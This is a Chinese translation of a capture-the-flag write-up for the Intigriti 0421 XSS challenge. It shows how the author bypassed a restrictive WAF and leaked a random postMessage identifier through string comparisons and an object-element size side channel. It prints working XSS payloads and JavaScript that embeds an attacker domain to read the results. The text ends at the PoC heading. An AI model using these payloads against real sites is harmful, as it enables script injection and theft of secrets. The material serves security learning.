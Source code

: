 # Terjanq x Intigriti 0421 挑战的解决方案

> 原文：<https://infosecwriteups.com/solution-for-terjanq-x-intigritis-0421-challenge-ae68556cfcf1?source=collection_archive---------0----------------------->

本月的 Intigriti 挑战赛由令人惊叹的 [Terjanq](https://twitter.com/terjanq) 制作。他自己写了一篇很酷的文章[！不出所料，这次挑战非同寻常。复杂，令人沮丧，超级有趣。](https://easterxss.terjanq.me/writeup.html)

声明:我写这篇文章不是为了睡觉，所以我提前为错别字和混乱的句子道歉。

让我们开始吧！

查看挑战页面，我们看到以下脚本:

我们可以看到 GET 参数`error`用于在页面上创建一个“错误”消息。有趣的是，GET 参数的值使用`innerHTML`插入到 DOM 中，如第 17 行所示。然而，在我们到达非常有前途的代码行之前，我们的 GET 参数必须经历一个漫长的净化过程。首先，GET 参数的值通过 postMessage 发送到页面`/waf.html`。作为 postMessage 的一部分，还包含了一个名为`identifier`的变量的值。该值是通过使用`[Crypto.getRandomValues()](https://developer.mozilla.org/en-US/docs/Web/API/Crypto/getRandomValues)`生成的“密码强随机值”。让我们跳到`/waf.html`看看那边发生了什么:

正如我们在上面的脚本中看到的，`/waf.html`作为一个 WAF 工作(真是一个惊喜)。我不会深入讨论这个 WAF 是做什么的，但是如果你愿意，你可以自己看看。重要的是要知道，WAF 实际上允许我们执行一些 JavaScript 代码，但是我们能做的非常有限。我们的 JavaScript 代码不能包含第 13 行看到的任何字符:`" ' ` ( ) { } [ ] =`。为了举例说明如何执行一些 JavaScript，我们可以为`error` GET 参数使用以下有效负载:

```
<img src=x onerror=location++>
```

(记住对`+`进行 URL 编码)

这会将我们重定向到`/NaN`，因为我们试图将`location`对象递增 1，即使`location`不是 Number 类型。

在我们的 GET 参数通过 WAF 运行之后，一条 postMessage 被发送回主挑战页面，带有一个参数`safe`，它描述了`error` GET 参数的值是否通过了 WAF。那辆`identifier`也再次被送了回来。然后用`identifier`来确保邮件确实来自`/waf.html`，而不是由攻击者发送的“邪恶”邮件。

在与 [Robin](https://twitter.com/RobinZekerNiet) 简短地谈论了 Terjanq 的挑战看起来是多么的艰难之后，他提到了 Terjanq 是多么的喜欢 XS 泄密，并且为这个超级酷的资源做出了贡献:[https://xsleaks.com/](https://xsleaks.com/)。正因为如此，我决定把重点放在提取`identifier`值的可能性上。如果我们能这样做，我们就能发送一个包含我们想要的 HTML 内容的“邪恶的”postMessage。这似乎是一个非常困难的任务，因为我们可以使用的 JavasScript 代码非常有限，但事实证明这是可能的！

想了很多，我意识到一件很重要的事情。在 JavaScript 中，可以用小于和大于运算符来比较字符串。一些例子可能是:

```
"a" < "b" -> true
"abzd" > "abcd" -> true
"#b" < "#abcd" -> false
"#0a4z" < "#0a4" -> false
```

这意味着我们可以将`identifier`变量的值与其他字符串进行比较。我们不能在比较中直接输入一个字符串，因为我们不能使用任何一个`"’``，所以我们必须从其他地方获取一个字符串，比如从一个元素的`id`中。例如，我们可以这样做:

```
<img src=x id=d onerror=this.id<identifier>
```

这将确定`identifier`的第一个字符是否“大于”字符“d”。

虽然这很酷，但在它变得有用之前，我们有一些明显的限制要克服。

1.  首先，我们没有办法知道比较的结果是什么。
2.  我们只做了一个简单的比较，这并不能给我们太多的信息。我们必须进行一系列的比较，才能真正获得一些有用的信息。

我们还需要记住，每次更新页面时,`identifier`的值都会改变……这看起来当然不是一些容易克服的限制，但是让我们试试吧！

为了解决问题“2 ”,我们也许可以使用`location.hash`来访问 URL 片段。这似乎是一个有趣的想法，因为可以在不更新页面的情况下更改 URL 片段！换句话说，理论上我们可以在不改变`identifier`的情况下进行多重比较。实现这一目标的一个例子是:

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=<img src=x id=d onerror=this.id<identifier;this.src%2B%2B>";var w=window.open(url+"#a");setTimeout(function(){w.location=url+"#b"},1000);
setTimeout(function(){w.location=url+"#c"},2000);
setTimeout(function(){w.location=url+"#d"},3000);
```

注意我们如何在一个“循环”中使用`this.src++`来触发`onerror`事件。

我们仍然必须弄清楚如何实际“渗透”比较的结果。

看着`/waf.html`，我们可能会注意到我们被允许使用`object`元素。这给了我们一些有趣的可能性。同源策略对我们在网站上嵌入其他域时可以检索的信息有很多限制，但顾名思义，这(当然)只是在父窗口和嵌入窗口不共享同一源的情况下。如果我们从攻击者控制的域中打开挑战页面，就像前面的例子一样，然后让挑战页面将攻击者控制的域嵌入到一个`object`元素中，会怎么样？这使得从攻击者控制的域的上下文中访问`object`元素的 contentWindow 成为可能，而没有任何同源策略问题。

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=<object data=https://attacker_domain>";var w=window.open(url);setTimeout(function(){console.log(w.window[1])},1000);
```

这令人兴奋的原因是，我们实际上可以用它来解释我们比较的结果！为此，我决定使用`object`元素的宽度和高度属性。其工作原理是，挑战页面将修改其中一个属性，然后我们可以通过`innerHeight`和`innerWidth`从攻击者控制的页面中读取这些属性。一个例子如下:

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=<object id=a data=https://attacker_domain><img src=x onerror=a.height%2B%2B;this.src%2B%2B>";var w=window.open(url);setInterval(function(){console.log(w.window[1].innerHeight)},1000);
```

我们现在都能够进行多重比较并导出结果！现在剩下的是大量的工作，实际上将这些技术放在一起，以创建一个完全工作的 PoC。一些基本的想法是这样做:

```
location.hash<this.id+identifier&&a.height++
```

如果散列是`#a`，上面的内容将被转换为:

```
"#a"<"#"+identifier&&a.height++
```

如果标识符的第一个字符“大于”a，这个逻辑将只增加 id 为`a`的`object`元素的高度。

基于上面的想法，我创建了我的 PoC 代码，我对它并不满意，但是你可以在这篇文章的底部找到它。

简而言之，它执行以下操作:

在“挑战”页面上:

1.  等待哈希发生变化
2.  检查提供的散列是否比标识符“小”,如果是这样，增加`object`元素的宽度
3.  检查提供的散列值是否“大于”标识符，如果是这样，就增加`object`元素的高度

在攻击者控制的页面上:

1.  等待`object`元素的大小改变
2.  检查哪个值发生了变化，并使用它逐字符缩小`identifier`值的可能性(使用二进制搜索)
3.  最后向挑战页面发送一条包含正确标识符的邮件，以弹出警报！

你可以在这篇文章的底部阅读更详细的解释。

运行 PoC 代码，我们得到以下结果:

![](img/50bfdfcb3fc07ea5246ee54433d91f99.png)

漂亮，对！？

非常感谢挑战 [Terjanq](https://twitter.com/terjanq) 和 Intigriti！非常感谢您的阅读！如果你有任何问题，请随时联系我。

Happy hacking，
[@holme_sec](https://twitter.com/holme_sec)

**关于挑战页面上使用的“逻辑”有效负载的更多信息:**

以下是用于比较`identifier`变量的解码“逻辑”有效载荷:

```
<img src=x id=#NaN name=# onerror=this.id<location.hash||location.hash<this.id||this.src+++bla;location.hash<this.name+identifier&&a.width++;this.name+identifier<location.hash&&a.height++;location.hash++;this.src++>
```

让我们把它分成更小的部分。

第一部分:

```
this.id<location.hash||location.hash<this.id||this.src+++bla;
```

这一部分用于确保当 URL 片段改变时，我们只运行一次代码的下一部分。它通过使用 OR ( `||`)操作符来实现。它首先检查当前哈希是否大于`this.id`。`img`标签的 id 是`#NaN`，所以如果 hash 等于或大于`#NaN`，则为假。接下来，进行检查以确定当前散列是否小于`this.id`，这也是`#NaN`。因为这是用 OR 运算符完成的，所以只要其中一个语句为真，整个语句就为真。这意味着一旦当前语句为真，就没有必要继续检查其余的语句。例如，如果当前散列值大于`#NaN`，那么接下来的两条语句将被跳过，而不会被求值。然而，如果当前散列是**，既不大于**，也不小于`#NaN`，这意味着当前散列必须等于`#NaN`，我们将继续到第三个也是最后一个语句:

```
this.src+++bla
```

在评估这条语句时，我们将首先更新`img`元素的`src`。我们这样做是为了确保在循环中调用`onerror`事件处理程序。接下来，我们尝试运行无效的 JavaScript 代码`bla`。这样做的原因是确保我们在代码中创建一个错误，以避免执行`onerror`事件处理程序中的任何剩余代码。这种机制允许我们创建一些逻辑来控制何时执行一些代码。本质上这是一个糟糕的 if 语句。

第二部分:

```
location.hash<this.name+identifier&&a.width++;
```

这部分检查`identifier`变量是否大于当前散列。我们将`this.name`前置为`#`，因为`location.hash`返回以`#`字符开头的 URL 片段。如果比较结果为真，我们将`object`元素的宽度增加 1。

第三部分:

```
this.name+identifier<location.hash&&a.height++;
```

这一部分与第二部分非常相似。它检查`identifier`变量是否小于当前散列，如果是，则将`object`元素的高度增加 1。

第四部分:

```
location.hash++;this.src++
```

最后一部分从散列值加 1 开始，这将使它的值为`NaN`，因为散列值不属于 Number 类型。这样做是为了使用我们在第 1 部分中的逻辑，以确保我们每次在散列中收到新值时只运行第 2–4 部分一次。最后，增加了`this.src`以确保我们将在循环中调用`onerror`事件处理程序。

**PoC 代码:**